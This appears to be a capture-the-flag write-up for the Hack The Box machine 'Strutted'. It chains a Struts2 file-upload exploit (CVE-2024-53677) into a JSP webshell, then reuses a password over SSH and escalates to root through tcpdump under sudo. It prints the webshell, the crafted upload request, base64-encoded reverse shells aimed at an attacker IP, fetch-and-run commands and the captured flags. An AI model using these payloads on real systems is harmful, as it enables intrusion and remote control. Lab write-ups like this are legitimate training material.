










## TL;DR

We start with exploiting `CVE-2024-53677` in struts2 apache to upload `.jsp` webshell, and gain access as tomcat user. Then, we find `james` password inside `tomcat-users.xml`, and login as `james` user. We exploit known PE vector in `tcpdump`, when running with sudo and gain root shell.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



```bash
┌──(agonen㉿kali)-[~/htb/Strutted]
└─$ 
Not shown: 50744 closed tcp ports (reset), 14789 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

we will add `strutted.htb` to our `/etc/hosts`.

### Exploiting CVE-2024-53677 to achieve webshell upload and shell as tomcat user

We first start with auto scanning, for pages:
```bash
┌──(agonen㉿kali)-[~/htb/Strutted]                                                                                                     
└─$ gobuster dir -u http://strutted.htb/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt --xl 
5197
```
and for subdomains:
```bash
┌──(agonen㉿kali)-[~/htb/Strutted]                                                                                                     
└─$ gobuster vhost -u http://strutted.htb/ --xs 400 --ad --wordlist /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-
list-2.3-small.txt
```

Nothing too interesting is popping to us, so let's move to manual exploring.

In the website we can see option for upload files, and also downloading the source code, at the "Download" button.

in order to unzip, we'll execute this command:
```bash
┌──(agonen㉿kali)-[~/htb/Strutted]
└─$ unzip strutted.zip -d strutted/
```

Then, we can find the file `tomcat-users.xml`, which contain username and password.
```bash
┌──(agonen㉿kali)-[~/htb/Strutted/strutted]
└─$ more tomcat-users.xml 
<?xml version='1.0' encoding='utf-8'?>

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
```

Also, we can find the file `strutted/pom.xml`, which contains the `struts2 apache` version:
```xml
<struts2.version>6.3.0.1</struts2.version>
```



I found this `cve-2024-53677` for the version, and exploit, [https://github.com/0xPThree/struts_cve-2024-53677](https://github.com/0xPThree/struts_cve-2024-53677), however, it isn't working.



The reason it isn't working, is because it checks if I upload an image, let's see the source code `strutted/src/main/java/org/strutted/htb/Upload.java`, it checks the content type, the extension, and some magic bytes (2-5 first bytes)



Then, I found this article that talks about `cve-2024-53677` [https://www.skshieldus.com/download/files/download.do?o_fname=Research%20Technique%20Jan_Struts2%20File%20Upload%20Vulnerability%20(CVE-2024-53677).pdf&r_fname=20250124092748303.pdf](https://www.skshieldus.com/download/files/download.do?o_fname=Research%20Technique%20Jan_Struts2%20File%20Upload%20Vulnerability%20(CVE-2024-53677).pdf&r_fname=20250124092748303.pdf).

We can see the main idea is to add another segment, where we put the name `top.uploadFileName`. In our case we'll need to travel back 2 folders, to reach the ROOT dir:
```bash
Content-Disposition: form-data; name="top.uploadFileName"

../../cmd.jsp
```

Note that you must change the `u` in `update`, at the first filename, to `U`.



Now, let's insert this simple `jsp` webshell, it's taken from here [https://gist.github.com/ErosLever/7445a3cfaaf80f1f5a53](https://gist.github.com/ErosLever/7445a3cfaaf80f1f5a53):

```jsp
<form method="GET" action="">
	<input type="text" name="cmd" />
	<input type="submit" value="Exec!" />
</form> <%!
public String esc(String str){
	StringBuffer sb = new StringBuffer();
	for(char c : str.toCharArray())
		if( c >= '0' && c <= '9' || c >= 'A' && c <= 'Z' || c >= 'a' && c <= 'z' || c == ' ' )
			sb.append( c );
		else
			sb.append("&#"+(int)(c&0xff)+";");
	return sb.toString();
} %><%
String cmd = request.getParameter("cmd");
if ( cmd != null) {
	out.println("<pre>Command was: <b>"+esc(cmd)+"</b>\n");
	java.io.DataInputStream in = new java.io.DataInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
	String line = in.readLine();
	while( line != null ){
		out.println(esc(line));
		line = in.readLine();
	}
	out.println("</pre>");
} %>
```

And upload, full request:
```bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://strutted.htb/upload.action
Content-Type: multipart/form-data; boundary=---------------------------258897555529327086613135022427
Content-Length: 1155
Origin: http://strutted.htb
Connection: keep-alive
Cookie: JSESSIONID=5650B6EBFF5A820A23EE93929D6DA1C2
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------258897555529327086613135022427
Content-Disposition: form-data; name="Upload"; filename="simple.png"
Content-Type: image/png

‰PNG

‚<form method="GET" action="">
	<input type="text" name="cmd" />
	<input type="submit" value="Exec!" />
</form> <%!
public String esc(String str){
	StringBuffer sb = new StringBuffer();
	for(char c : str.toCharArray())
		if( c >= '0' && c <= '9' || c >= 'A' && c <= 'Z' || c >= 'a' && c <= 'z' || c == ' ' )
			sb.append( c );
		else
			sb.append("&#"+(int)(c&0xff)+";");
	return sb.toString();
} %><%
String cmd = request.getParameter("cmd");
if ( cmd != null) {
	out.println("<pre>Command was: <b>"+esc(cmd)+"</b>\n");
	java.io.DataInputStream in = new java.io.DataInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
	String line = in.readLine();
	while( line != null ){
		out.println(esc(line));
		line = in.readLine();
	}
	out.println("</pre>");
} %>
-----------------------------258897555529327086613135022427
Content-Disposition: form-data; name="top.uploadFileName"

../../cmd.jsp
-----------------------------258897555529327086613135022427--
```



now just access the webshell at `http://strutted.htb/cmd.jsp` and execute our commands:



This is the set of commands we'll execute, we take the payload from our `penelope`:
* locally:

```bash
┌──(agonen㉿kali)-[~/htb/Strutted]
└─$ echo 'printf KHJtIC90bXAvXztta2ZpZm8gL3RtcC9fO2NhdCAvdG1wL198c2ggMj4mMXxuYyAxMC4xMC4xNi4zMSA0NDQ0ID4vdG1wL18pID4vZGV2L251bGwgMj4mMSAm|base64 -d|sh' > rev_shell.sh
                                                                                                                                                             
┌──(agonen㉿kali)-[~/htb/Strutted]
└─$ python3 -m http.server 8081 
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...

```

* remotely:

```bash
curl http://10.10.16.31:8081/rev_shell.sh -o /tmp/rev_shell.sh
chmod +x /tmp/rev_shell.sh
/tmp/rev_shell.sh
```

And now, just grab the reverse shell:


### Move to james user using password from tomcat-users.xml


First, check for users, checking the `/etc/passwd` file.
we can see the user `tomcat` and the user `james`.
```bash
tomcat@strutted:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat9:/usr/sbin/nologin
james:x:1000:1000:Network Administrator:/home/james:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

Now, I search for all of the occurrences of the string "password", `-i` for case insensitive, `-I` for ignore binary files, `-r` for recursive and `-n` for showing the line number:
```bash
tomcat@strutted:~$ grep "password" * -iInr 2>/dev/null
conf/tomcat-users.xml:25:  you must define such a user - the username and password are arbitrary.
conf/tomcat-users.xml:36:  will also need to set the passwords to something appropriate.
conf/tomcat-users.xml:39:  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
conf/tomcat-users.xml:40:  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
conf/tomcat-users.xml:43:  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
conf/tomcat-users.xml:50:  them. You will also need to set the passwords to something appropriate.
conf/tomcat-users.xml:55:  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
conf/tomcat-users.xml:56:  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
conf/tomcat-users.xml:57:  <user username="role1" password="<must-be-changed>" roles="role1"/>
conf/server.xml:141:      <!-- Use the LockOutRealm to prevent attempts to guess user passwords
logs/localhost_access_log.2025-11-05.txt:1381:127.0.0.1 - - [05/Nov/2025:11:05:01 +0000] "GET /requestpassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:1386:127.0.0.1 - - [05/Nov/2025:11:05:01 +0000] "GET /ForgotPassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:3690:127.0.0.1 - - [05/Nov/2025:11:11:53 +0000] "GET /lost-password HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:4668:127.0.0.1 - - [05/Nov/2025:11:13:54 +0000] "GET /password-recovery HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:5670:127.0.0.1 - - [05/Nov/2025:11:18:59 +0000] "GET /passwordreminder HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:5908:127.0.0.1 - - [05/Nov/2025:11:19:18 +0000] "GET /User-LostPassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:6030:127.0.0.1 - - [05/Nov/2025:11:19:27 +0000] "GET /tiki-remind_password HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:6382:127.0.0.1 - - [05/Nov/2025:11:19:54 +0000] "GET /Passwords HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:6423:127.0.0.1 - - [05/Nov/2025:11:19:57 +0000] "GET /changePassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:8124:127.0.0.1 - - [05/Nov/2025:11:21:53 +0000] "GET /Password HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:10704:127.0.0.1 - - [05/Nov/2025:11:24:47 +0000] "GET /Password-Recovery HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:11702:127.0.0.1 - - [05/Nov/2025:11:26:01 +0000] "GET /request_password HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:12025:127.0.0.1 - - [05/Nov/2025:11:27:06 +0000] "GET /emailPassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:13818:127.0.0.1 - - [05/Nov/2025:11:29:45 +0000] "GET /remindPassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:14043:127.0.0.1 - - [05/Nov/2025:11:30:21 +0000] "GET /sendpassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:14241:127.0.0.1 - - [05/Nov/2025:11:30:37 +0000] "GET /resetPassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:17837:127.0.0.1 - - [05/Nov/2025:11:35:49 +0000] "GET /main_password HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:19703:127.0.0.1 - - [05/Nov/2025:11:38:06 +0000] "GET /password_reset HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:24861:127.0.0.1 - - [05/Nov/2025:11:45:13 +0000] "GET /show-emailpassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:27045:127.0.0.1 - - [05/Nov/2025:11:49:51 +0000] "GET /RecoverLostWindowsNTAdministratorPassword HTTP/1.0" 200 5197
logs/localhost_access_log.2025-11-05.txt:30796:127.0.0.1 - - [05/Nov/2025:11:54:58 +0000] "GET /changepassword HTTP/1.0" 200 5197
```

We can see the password `IT14d6SSP81k`, we might be able to use it for user `james`.
when we try to change to user `james` using `su` it isn't working, but using ssh it is working:
```bash
┌──(agonen㉿kali)-[~/htb/Strutted]
└─$ ssh james@$target    
```



and grab user flag:
```bash
james@strutted:~$ cat user.txt 
60eae43f798ab3a7d84e6e6538dd17a1
```

### Privilege Escalation to Root

we start with `sudo -l` to check sudo privileges:
```bash
james@strutted:~$ sudo -l 
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

We can use **GTFobins** [https://gtfobins.github.io/gtfobins/tcpdump/](https://gtfobins.github.io/gtfobins/tcpdump/) to get privilege escalation.

```bash
COMMAND='id'
TF='/tmp/our_tmp'
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```
The flags are:
* `-i` -> interface to listen for
* `-w` -> file to writes raw packets to
* `-W` -> number of files to write (needed for rotation)
* `-G` -> rotate seconds, rotate dump file (/dev/null) every $n seconds
* `-z` -> file to contain command rotate
* `-Z` -> user to execute rotation as, by default downgrade to real user ID

Now, we can put whatever command we want inside our rotate command file.



So, we'll execute this, the payload is taken from `penelope`:
```bash
COMMAND='#!/bin/bash\nprintf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTYuMzEvNDQ0NCAwPiYxKSAm|base64 -d|bash'
ROTATE_FILE='/tmp/rev_shell.sh'
echo -e $COMMAND > $ROTATE_FILE
chmod +x $ROTATE_FILE
sudo tcpdump -i lo -w /dev/null -W 1 -G 1 -z $ROTATE_FILE -Z root
```



```bash
root@strutted:/home/james# cat /root/root.txt
6bcad1343a5521527eb1e4d2bde42913
```

**User Flag:*****`60eae43f798ab3a7d84e6e6538dd17a1`***

**Root Flag:*****`6bcad1343a5521527eb1e4d2bde42913`***
